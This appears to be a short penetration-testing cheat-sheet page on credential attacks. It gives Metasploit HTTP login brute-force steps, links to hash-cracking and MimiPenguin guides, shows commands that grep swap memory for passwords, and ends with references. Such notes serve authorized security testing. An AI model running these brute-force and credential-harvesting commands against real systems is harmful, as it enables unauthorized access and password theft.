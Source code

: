 # HTTP Credentials
##### Metasploit http_login
```bash
msfconsole -q
use auxiliary/scanner/http/http_login
set RHOSTS [Target Host]
set AUTH_URI [Directory]
set USER_FILE [Username List]
set PASS_FILE [Password List]
set VERBOSE false
run
```

# Linux Passwd / Shadow
### [Password Hashes](../../Services/Cryptography/Hashes/README.md#Shadow-File-Password-Hashes)

### John The Ripper
##### [Unshadow Linux Hashes Cracking](../../Tools/Credentials_Cryptography/JohnTheRipper/README.md#Unshadow-for-Linux-Hashes-Cracking)

##### [Crack Linux Hashes](../../Tools/Credentials_Cryptography/JohnTheRipper/README.md#Crack-Linux-Hashes)

### MimiPenguin
##### [Run as Shell Script](../../Tools/Credentials_Cryptography/MimiPenguin/README.md#Run-as-Shell-Script)

##### [Run as Python Script](../../Tools/Credentials_Cryptography/MimiPenguin/README.md#Run-as-Python-Script)

### From Swap Memory
##### Find Swap File
```bash
swapon -s

cat /proc/swaps
```
##### Look for Passwords
```bash
# Assuming found swap file as /dev/sda5
strings /dev/sda5 | grep "password="
strings /dev/sda5 | grep "&password="
```
##### [Using Swap Digger](../../Tools/Credentials/SwapDigger/README.md#Find-Passwords-in-Swap-File)

# References
[statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)

[smtp-user-enum](https://pentestmonkey.net/tools/user-enumeration/smtp-user-enum)

[smtp_enum](https://www.rapid7.com/db/modules/auxiliary/scanner/smtp/smtp_enum/)

[smb_login](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login/)

[owa_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login/)

[Reverse brute-force attack](https://en.wikipedia.org/wiki/Brute-force_attack#Reverse_brute-force_attack)

[NT PW Recovery "booting the kernel"](https://community.infosecinstitute.com/discussion/97802/nt-pw-recovery-booting-the-kernel)

[Reset Windows 10 Local Password with Kali Linux Live USB](https://www.top-password.com/knowledge/reset-windows-10-password-with-kali-linux.html)